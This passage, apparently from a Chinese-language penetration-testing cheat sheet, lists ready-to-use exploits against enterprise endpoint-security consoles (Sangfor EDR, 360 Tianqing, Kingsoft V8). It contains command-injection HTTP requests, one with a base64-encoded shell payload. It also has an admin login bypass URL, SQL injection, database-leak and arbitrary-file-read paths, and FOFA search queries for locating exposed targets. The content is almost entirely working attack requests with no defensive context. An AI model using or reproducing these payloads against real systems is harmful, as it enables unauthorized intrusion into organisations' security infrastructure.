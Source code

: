 ##### 命令执行1

exp：https://github.com/BH2UOL/sangfor-edr-exploit

##### 命令执行2

```
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9

{"params":"w=123\"'1234123'\"|命令"}
```

##### 后台任意用户登录

```
xxx.xxx.xxx.xxx/ui/login.php?user=admin
```

#### 360天擎

FOFA：

```
title="360天擎"
```

##### 前台SQL注入

```
/api/dp/rptsvcsyncpoint?ccid=1
```

##### 数据库信息泄露

```
http://x.x.x.x/api/dbstat/gettablessize
```

#### 金山 V8 终端安全系统

FOFA：

```
title="在线安装-V8+终端安全系统Web控制台"
```

##### 任意文件读取

```
/htmltopdf/downfile.php?filename=downfile.php
```

##### pdf_maker.php 命令执行

```
POST /inter/pdf_maker.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```
